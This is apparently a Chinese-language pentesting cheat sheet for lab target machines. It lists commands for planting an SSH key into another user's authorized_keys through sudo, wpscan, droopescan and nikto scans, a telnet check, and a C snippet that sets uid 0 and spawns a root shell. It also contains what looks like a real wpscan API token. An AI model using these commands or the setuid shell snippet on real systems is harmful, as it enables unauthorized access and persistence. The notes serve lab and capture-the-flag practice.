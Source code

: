 **公钥**

```
#将自己主机的home/xxx/.ssh/id_rsa.pub写入靶机/home/ford/.ssh/authorized_keys
ssh ford@192.168.56.102

ssh-keygen
ls -la /home/pinak/.ssh
cat /home/pinak/.ssh/id_rsa.pub > /home/pinak/authorized_keys
sudo -u sarang cp /home/pinak/authorized_keys /home/sarang/.ssh/
```

#### wpscan

```
wpscan --url http://192.168.56.121/wordpress --api-token ldGDLvdpY0pV8CrskQzCbCWak5cqcXjHTROqH0jJSz0 -e vp,vt,u
```

#### drupal7框架

```
./droopescan scan drupal -u http://192.168.56.113 -e a
```

#### nikto

```
nikto -host http://192.168.1.136/gara/
```



#### telnet

> 对于一些浏览器连接重置的情况，可以用telnet试试

```
telnet 192.168.56.105 1337
```

#### C语言提权脚本

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
void test_this()
{
setuid(0); setgid(0); system("/bin/sh");
}
```



#### 收集提权信息

> https://github.com/sleventyeleven/linuxprivchecker
